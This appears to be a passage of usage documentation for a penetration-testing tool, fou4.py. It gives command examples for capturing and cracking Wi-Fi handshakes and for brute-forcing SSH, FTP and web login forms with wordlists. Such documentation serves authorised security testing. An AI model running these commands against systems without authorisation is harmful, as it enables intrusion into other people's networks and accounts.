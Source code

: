 ```bash
python3 fou4.py --module wifi --tool handshake \
  --interface wlan0mon \
  --bssid AA:BB:CC:DD:EE:FF \
  --channel 6 \
  --duration 120 \
  --output my_handshake
```

#### Password Cracking
```bash
# Crack captured handshake
python3 fou4.py --module wifi --tool crack \
  --target handshake-01.cap \
  --wordlist /usr/share/wordlists/rockyou.txt
```

### Password Module

#### SSH Attack
```bash
# Single username, password list
python3 fou4.py --module password --tool ssh \
  --target 192.168.1.100 \
  --username admin \
  --wordlist passwords.txt

# Username list, password list
python3 fou4.py --module password --tool ssh \
  --target 192.168.1.100 \
  --username-list users.txt \
  --wordlist passwords.txt

# Custom port
python3 fou4.py --module password --tool ssh \
  --target 192.168.1.100 \
  --username admin \
  --wordlist passwords.txt \
  --threads 2
```

#### FTP Attack
```bash
# FTP brute force
python3 fou4.py --module password --tool ftp \
  --target ftp.example.com \
  --username anonymous \
  --wordlist passwords.txt
```

#### HTTP POST Attack
```bash
# Web form brute force
python3 fou4.py --module password --tool http-post \
  --target webapp.com \
  --username admin \
  --wordlist passwords.txt \
  --form-params "username=^USER^&password=^PASS^:Invalid credentials"

# With custom login URL (use | separator)
python3 fou4.py --module password --tool http-post \
  --target webapp.com \
  --username admin \
  --wordlist passwords.txt \
  --form-params "/admin/login.php|user=^USER^&pass=^PASS^:Login failed"
```